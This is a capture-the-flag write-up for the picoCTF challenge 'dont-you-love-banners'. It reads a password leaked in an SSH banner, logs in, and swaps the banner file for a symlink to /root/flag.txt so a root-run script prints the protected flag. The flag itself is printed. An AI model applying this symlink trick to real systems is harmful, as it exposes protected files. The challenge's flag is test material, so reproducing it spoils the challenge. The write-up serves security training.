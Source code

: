 # dont-you-love-banners

## Description

Can you abuse the banner?
The server has been leaking some crucial information on tethys.picoctf.net 63223. Use the leaked information to get to the server.

To connect to the running application use nc tethys.picoctf.net 49837. From the above information abuse the machine and find the flag in the /root directory.

## Hints

- Do you know about symlinks?
- Maybe some small password cracking or guessing

## Solution

This is one of the most exciting CTFs I have ever solved. first, let's see what we can get from tethys.picoctf.net 63223 .

```shell
nc tethys.picoctf.net 63223

SSH-2.0-OpenSSH_7.6p1 My_Passw@rd_@1234
```

Great! we got the password from this leaking server. so let's use it to connect to the second server.

```shell
nc tethys.picoctf.net 49837
```

the server will ask you several questions to let you in. The answers are as follows:

```cmd
*************************************
**************WELCOME****************
*************************************

what is the password?
My_Passw@rd_@1234

What is the top cyber security conference in the world?
def con

the first hacker ever was known for phreaking(making free phone calls), who was it?
John Draper
```

now you're in! let's do a ```ls -la```.

```shell
player@challenge:~$ ls -la
total 20
drwxr-xr-x 1 player player   20 Mar  9 16:39 .
drwxr-xr-x 1 root   root     20 Mar  9 16:39 ..
-rw-r--r-- 1 player player  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 player player 3771 Apr  4  2018 .bashrc
-rw-r--r-- 1 player player  807 Apr  4  2018 .profile
-rw-r--r-- 1 player player  114 Feb  7 17:25 banner
-rw-r--r-- 1 root   root     13 Feb  7 17:25 text
```

let's see what's inside the banner and text:

```shell
player@challenge:~$ cat banner
*************************************
**************WELCOME****************
*************************************
```

```shell
player@challenge:~$ cat text
keep digging
```

so we need to go deeper. remember that the question specified that we need to find the flag in the /root directory.

```shell
cd /root
```

```shell
ls
flag.txt  script.py
```

looks like we found the flag. let's open it.

```shell
cat: flag.txt: Permission denied
```

As you can see, we need root access to open the file. but worry not! there is another way to get to the flag without root privilege!

look back at the hints:
> Do you know about symlinks?

it seems the challenge is suggesting you create a symbolic link (symlink) to flag.txt that you can access without root privileges.

but where should we link it to? the challenge suggests that we need to abuse the banner somehow. so let's give it a try.

Note that you need to remove or rename the existing banner file before creating the symbolic link.

```shell
mv banner banner_backup
ln -s /root/flag.txt banner
```

read this part carefully:
**Any process that reads the banner as your user and displays its contents could potentially display the contents of flag.txt instead if it follows the symlink.**

but which process can do that for us? what about script.py? let's look at its contents:

```shell
cat script.py 
```

```py
import os
import pty

incorrect_ans_reply = "Lol, good try, try again and good luck\n"

if __name__ == "__main__":
    try:
      with open("/home/player/banner", "r") as f:
        print(f.read())
    except:
      print("*********************************************")
      print("***************DEFAULT BANNER****************")
      print("*Please supply banner in /home/player/banner*")
      print("*********************************************")

try:
    request = input("what is the password? \n").upper()
    while request:
        if request == 'MY_PASSW@RD_@1234':
            text = input("What is the top cyber security conference in the world?\n").upper()
            if text == 'DEFCON' or text == 'DEF CON':
                output = input(
                    "the first hacker ever was known for phreaking(making free phone calls), who was it?\n").upper()
                if output == 'JOHN DRAPER' or output == 'JOHN THOMAS DRAPER' or output == 'JOHN' or output== 'DRAPER':
                    scmd = 'su - player'
                    pty.spawn(scmd.split(' '))

                else:
                    print(incorrect_ans_reply)
            else:
                print(incorrect_ans_reply)
        else:
            print(incorrect_ans_reply)
            break

except:
    KeyboardInterrupt
```

It's loading the banner each time we send a request to log in to the server, which is exactly what we want.

Since we don't have execute permission for script.py and it's owned by root, we won't be able to run it directly. therefore, we open another tab in the terminal and connect to the server one more time so that script.py will be executed:

flag: **picoCTF{b4nn3r_gr4bb1n9_su((3sfu11y_218ef5d6}**

And there you go.

Happy hacking!
